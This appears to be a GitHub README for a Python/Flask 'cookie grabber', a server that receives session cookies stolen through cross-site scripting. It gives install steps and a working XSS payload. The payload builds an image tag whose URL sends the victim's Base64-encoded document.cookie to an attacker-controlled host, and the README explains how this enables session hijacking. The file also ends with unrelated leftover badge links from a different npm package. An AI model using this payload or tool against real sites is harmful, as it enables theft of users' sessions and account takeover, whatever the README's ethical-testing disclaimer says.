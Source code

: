 # Cookie grabber 
> A simple cookie grabber built with Python and Flask.

![License](https://img.shields.io/badge/license-MIT-blue.svg)  
![Python](https://img.shields.io/badge/python-3.x-green.svg)  
![Flask](https://img.shields.io/badge/flask-2.x-red.svg)

A simple cookie grabber built with Python and Flask. This tool is designed to capture cookies from users who are targeted by an XSS (Cross-Site Scripting) attack.
**This tool is for educational and ethical testing purposes only.**


## Installation

```bash
  git clone https://github.com/0273574/cookie_grabber.git
  cd cookie_grabber

  # Create a virtual environment
  python3 -m venv env
  source env/bin/activate

  #  Install dependencies
  pip install -r requirements.txt
```

## Usage example

When a website has a login functionality and contains a form vulnerable to Cross-Site Scripting (XSS), an attacker can exploit this vulnerability by injecting malicious JavaScript code. For example, the attacker could inject the following script:

```javascript
Copy
<script>
  var img = document.createElement("img");
  img.src = "http://ip.addr.of.grabber:443/grab.php?cookie=" + btoa(document.cookie);
  document.body.appendChild(img);
</script>
```
## How It Works

- The script creates an `<img>` element.
- The `src` attribute of the image is set to a URL controlled by the attacker, which includes the victim's cookies (encoded in Base64) as a query parameter.
- When the browser attempts to load the image, it sends an HTTP request to the attacker's server, exfiltrating the victim's session cookies.
- The attacker can then decode the cookies and potentially hijack the victim's session.

## Ethical Considerations

This tool is designed for educational purposes and ethical security testing only. It should only be used in environments where you have explicit permission to test for vulnerabilities. Unauthorized use of this tool to exploit or harm systems, networks, or individuals is illegal and unethical. The developers and contributors of this project are not responsible for any misuse of this tool.

Always ensure you have proper authorization before using this tool in any environment.

[https://github.com/0273574/](https://github.com/0273574/)

Please ensure that any contributions adhere to ethical guidelines and are intended for educational or authorized security testing purposes only.

[npm-image]: https://img.shields.io/npm/v/datadog-metrics.svg?style=flat-square
[npm-url]: https://npmjs.org/package/datadog-metrics
[npm-downloads]: https://img.shields.io/npm/dm/datadog-metrics.svg?style=flat-square
[travis-image]: https://img.shields.io/travis/dbader/node-datadog-metrics/master.svg?style=flat-square
[travis-url]: https://travis-ci.org/dbader/node-datadog-metrics
